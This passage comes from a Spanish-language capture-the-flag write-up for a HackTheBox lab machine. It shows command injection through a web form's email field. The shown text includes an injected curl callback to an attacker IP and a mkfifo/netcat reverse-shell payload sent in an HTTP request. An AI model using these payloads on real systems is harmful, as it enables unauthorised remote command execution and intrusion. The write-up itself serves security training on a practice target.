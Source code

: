 Vemos que en la asignación de la variable `result` se está utilizando la función `run()`. A la que se le pasa el parámetro `email` que llega en la propia petición. Por tanto podemos volver a interceptar una petición y editarla con [[burpsuite]] para inyectar comandos en [[Bash]]:

```http
POST / HTTP/1.1
Host: only4you.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: http://only4you.htb
Connection: close
Referer: http://only4you.htb/
Upgrade-Insecure-Requests: 1

name=dsfds&email=hola%40hola.com;curl 10.10.16.65:30303&subject=hola&message=hola
```

En este caso, probamos a hacer una petición a un servidor http con [[python 1]] (`sudo python3 -m http.server 30303`). Recibimos la respuesta, así que confirmamos que es vulnerable a [[RCE]].

## Explotación

Vamos a tratar de entablarnos una reverse shell ([[Reverse shell]]). Para ello nos podremos en escucha con [[netcat]]:

```bash
nc -lvnp 30303
```

E inyectaremos la reverse shell (`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`) en la petición con [[burpsuite]]:

```http
name=asdas&email=hola%40hola.hola;rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.16.54+39393+>/tmp/f&subject=hola%40hola.hola&message=asdasda
```

Y deberíamos obtener una shell como **www-data**. A continuación aplicamos un [[Tratamiento de la tty]], y procederemos con el [[Reconocimiento del equipo]].

## Escalada de privilegios (User)

No parece haber ningún archivo interesante, sin embargo, si tratamos de enumerar puertos con [[netstat]]:

```bash
netstat -t
```
```netstat
[...]
tcp        0      0 localhost:8001          localhost:59528         TIME_WAIT  
tcp        0      0 localhost:46930         localhost:7687          TIME_WAIT
[...]
```
